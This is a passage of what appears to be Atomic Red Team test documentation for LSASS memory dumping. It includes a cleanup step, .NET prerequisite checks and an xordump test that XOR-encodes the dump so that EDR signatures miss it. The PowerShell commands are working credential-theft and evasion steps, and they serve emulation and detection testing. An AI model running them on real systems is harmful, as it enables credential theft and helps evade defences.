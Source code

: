 #### Cleanup Commands:
```powershell
Remove-Item $env:Temp\dotnet-lsass.dmp -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: .Net v5 must be installed
##### Check Prereq Commands:
```powershell
$exePath =  resolve-path "$env:ProgramFiles\dotnet\shared\Microsoft.NETCore.App\5*\createdump.exe"
if ($exePath -and (Test-Path $exePath)) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
winget install Microsoft.DotNet.DesktopRuntime.5 --accept-source-agreements --accept-package-agreements --silent
```




<br/>
<br/>

## Atomic Test #12 - Dump LSASS.exe using imported Microsoft DLLs
The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved by
importing built-in DLLs and calling exported functions. Xordump will re-read the resulting minidump 
file and delete it immediately to avoid brittle EDR detections that signature lsass minidump files.

Upon successful execution, you should see the following file created $env:TEMP\lsass-xordump.t1003.001.dmp.

**Supported Platforms:** Windows


**auto_generated_guid:** 86fc3f40-237f-4701-b155-81c01c48d697





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| xordump_exe | Path to xordump | path | C:&#92;Windows&#92;Temp&#92;xordump.exe|
| output_file | Path where resulting dump should be placed | path | C:&#92;Windows&#92;Temp&#92;lsass-xordump.t1003.001.dmp|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
#{xordump_exe} -out #{output_file} -x 0x41
```
